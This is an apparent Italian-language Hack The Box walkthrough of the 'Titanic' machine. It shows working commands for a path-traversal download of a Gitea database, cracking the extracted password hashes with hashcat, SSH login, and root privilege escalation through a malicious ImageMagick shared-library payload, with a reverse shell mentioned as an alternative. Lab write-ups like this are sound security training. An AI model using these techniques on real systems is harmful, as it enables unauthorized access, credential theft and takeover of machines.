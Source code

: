 # Titanic - Hack The Box Walkthrough

## 🕵️‍♂️ Primo Step: Ricognizione

La prima cosa che ho fatto è stata una scansione della rete con **nmap** per individuare porte aperte e servizi attivi.

```bash
nmap -sC -sV -A 10.10.11.55
```

L'output non ha rivelato nulla di particolarmente interessante, quindi ho deciso di analizzare il sito web principale. Dopo un'ispezione manuale senza successo, ho eseguito una scansione con **Gobuster** per cercare sottodomini.

```bash
gobuster dns -d titanic.htb -w common.txt
```

Grazie a questa scansione, ho trovato un sottodominio chiamato `dev`.

Visitando `dev.<target>`, ho scoperto che si trattava di un'istanza di **Gitea**, una piattaforma simile a GitHub per il versionamento del codice. Esplorando il repository pubblico, ho individuato un utente chiamato `developer`, che potrebbe essere interessante.

Scorrendo tra i file caricati, ho trovato dei file di configurazione, uno relativo a **Gitea** e un altro a **MySQL**.

## 📂 Accesso al Database

Ho tentato di connettermi direttamente a MySQL, ma la porta non era aperta. Tuttavia, consultando la documentazione di Gitea, ho scoperto che il database `gitea.db` si trova nel percorso `data/gitea`. Ho provato a scaricarlo con **curl**:

```bash
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Aprendo il database con **sqlite3**, ho trovato la tabella `user` contenente gli hash delle password.

```bash
sqlite3 gitea.db
sqlite> .tables
sqlite> SELECT name, passwd, salt FROM user;
```

L'hash della password era in un formato specifico di Gitea. Per decodificarlo in un formato leggibile da **hashcat**, ho usato uno script Python trovato su GitHub ([gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)).

Dopo la conversione, ho lanciato **hashcat** per effettuare un attacco brute-force usando la wordlist `rockyou.txt`.

```bash
hashcat -m 10900 hash.txt rockyou.txt
```

Dopo qualche minuto, ho trovato la password: **25282528**.

## 🔑 Accesso SSH e User Flag

Ora che ho una password valida, ho provato ad accedere tramite SSH all'utente `developer`:

```bash
ssh developer@10.10.11.55
```

Una volta dentro, ho esplorato la directory home dell'utente e ho trovato la **user flag**!

```bash
cat user.txt
```

## 🚀 Privilege Escalation

Per ottenere i privilegi di root, ho iniziato controllando i permessi di `sudo`:

```bash
sudo -l
```

Purtroppo, non ho trovato comandi eseguibili senza password. Ho quindi esplorato il sistema in cerca di file o processi interessanti.

Dopo un po' di ricerca, ho trovato un file che utilizza una versione vulnerabile di **ImageMagick**.

## 🎨 Exploit di ImageMagick

Per sfruttare la vulnerabilità di ImageMagick, ho utilizzato un approccio basato su una libreria condivisa malevola. In pratica, ImageMagick carica dinamicamente alcune librerie durante l'elaborazione delle immagini, e possiamo sfruttare questa caratteristica per eseguire codice arbitrario.

### 🛠 Creazione del Payload

Ho creato una libreria condivisa (`libxcb.so.1`) contenente il codice malevolo che copia il file `root.txt` in `/tmp/root.txt`. Ho compilato il file con il seguente comando:

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

### 📌 Esecuzione dell'Exploit

Una volta che ImageMagick ha elaborato questo file malevolo, il codice all'interno del **costruttore** (`__attribute__((constructor))`) è stato eseguito automaticamente. Questo ha permesso di copiare il contenuto di `root.txt` nella directory `/tmp`, rendendolo leggibile.

In alternativa, avrei potuto incorporare un **reverse shell** nello stesso payload per ottenere un accesso interattivo alla macchina come utente root.

## 🎯 Conclusione

Questa macchina ha richiesto un mix di tecniche di **ricognizione**, **exploit di Gitea**, **cracking di hash**, e **privilege escalation tramite ImageMagick**. È stata una sfida interessante che ha messo alla prova diverse competenze. 🚀
